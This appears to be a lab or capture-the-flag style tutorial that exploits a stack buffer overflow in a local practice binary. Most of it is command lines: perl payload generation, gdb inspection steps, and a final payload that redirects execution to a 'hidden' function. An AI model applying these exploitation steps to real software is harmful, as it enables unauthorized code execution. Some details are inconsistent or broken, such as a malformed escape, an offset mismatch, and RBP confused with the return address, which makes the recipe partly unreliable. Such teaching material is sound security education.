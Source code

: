 # Buffer Overflow

## 1. Fuzz
we have to find out if a buffer overflow even exists. 
We try different inputs to do so. Specifically, we are interested in *long* inputs, that potentially *overflow* a buffer somewhere in our target program.

How do we get long input in to our program?
Scripting languages like PERL (comes with all Linux distros) or Python (yes, you should know Python) can help you to a) craft long inputs and b) compose hex values.
`perl -e 'print "A"x200'`
`python -c 'print("asd"*200)`

Furhter, |, < and the expression evaluator $() can be used to combine commands.
We want to provide input via command line arguments, or STDIN.
Command Line:
'./target $(perl -e 'print "A"x200')'  
' perl -e 'print "A"x200' | xargs ./target '

STDIN:
'./target < perl -e 'print "A"x200''
or retain your payload (the A's) in a file:
'perl -e 'print "A"x200' > payload.txt'
'./target < payload.txt'

Lit, isn't it?

## 2. Observe
Debug your target, meaning analyze it *dynamically*
' gdb -q ./target '
Run it on the payload
' run < payload.txt '
Inspect registers and stack
' info registers '
' x/120x $rsp '
Wow, would be cooler if we had some breakpoints, so we can step through, right?
'disas main'
Shows you, where the target reads from STDIN, and you can set a breakpoint like
'b * vulnfunction+89'
or 
'b * 0x89089010'
Now inspect like
' info registers '
' x/120x $rsp '
' nexti '
' info registers '
' x/120x $rsp '
You should be able to see how the A's have not been on the stack *before* the read, but did then get loaded on to it by the read instruction. Wow!

# 4. Focus
What's our goal again?
1. Overwrite the return address
2. RBP is where the return address remains. We can inspect the RBP by using 'info registers'
3. Did we overwrite it yet? Hint: if the program seg faults you should be able to see the A's in the RBP at some point. Otherwise, you need more A's; try 500!
4. Remember: we want to overwrite the return address with our address of choice. We have to be damn precise!
5. Let's try using a couple of B's and C's to get a better overview of what's on the stack already.

'perl -e 'print "A"x500."BBBB"."CCCC"."DDDD"' > payload2.txt'

# 5. Make it happen
Playing around with the payload, we can see that 500 is to much, because RBP only consists of A's. 400 is to little, the RBP doesnt get overwridden. 
We hit the sweet spot at 424 A's B's and C's. Nice!

Now we can find our target address by using the debugger again:
' gdb -q ./target '
' disas hidden '
Take the first instruction after the prolog (the prolog is when RSP gets set to RBP at the beginning of each function).

Craft:
'perl -e 'print "A"x500."\78\x56\x34\x12\x00\x00\x00\x00"' > payload3.txt'
and boom:
' ./target < payload3.txt '













3. 




